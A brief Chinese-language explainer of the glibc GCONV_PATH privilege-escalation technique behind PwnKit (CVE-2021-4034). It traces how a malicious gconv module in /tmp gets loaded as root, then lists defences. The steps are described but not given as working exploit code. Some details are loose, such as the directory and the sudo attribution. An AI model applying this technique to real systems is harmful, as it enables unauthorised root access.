- 设置 GCONV_PATH=. 作用：告诉 glibc 从自定义目录加载 gconv 模块 正常行为： glibc 默认从 /usr/lib/gconv/ 加载模块 这是系统目录，普通用户无法写入 攻击行为： 现在 glibc 会优先从 /tmp 目录查找模块 普通用户可以在 /tmp 创建文件 注意：对于 setuid 程序，glibc 会清除某些危险环境变量。但 GCONV_PATH 在某些 glibc 版本中不会被清除
- 调用 iconv_open 触发 gconv_init 让目标程序加载恶意模块 正常程序代码： iconv_open("UTF-8", "PWN") 被调用 | glibc 检查 GCONV_PATH 环境变量（存在，指向 /tmp） | 在 /tmp 目录查找 gconv-modules 文件 | 解析配置文件，发现 PWN → UTF-8 对应模块 gconv_pwn | 加载 /tmp/gconv_pwn.so | 调用 .so 中的 gconv_init() 函数 | 恶意代码以调用者权限执行（root） | 实现提权 ``` 经典利用：sudo、pkexec 的 CVE-2021-4034（PwnKit）漏洞。 防御：禁用 setuid 程序、移除不必要的 gconv 模块、使用 no_new_privs。
-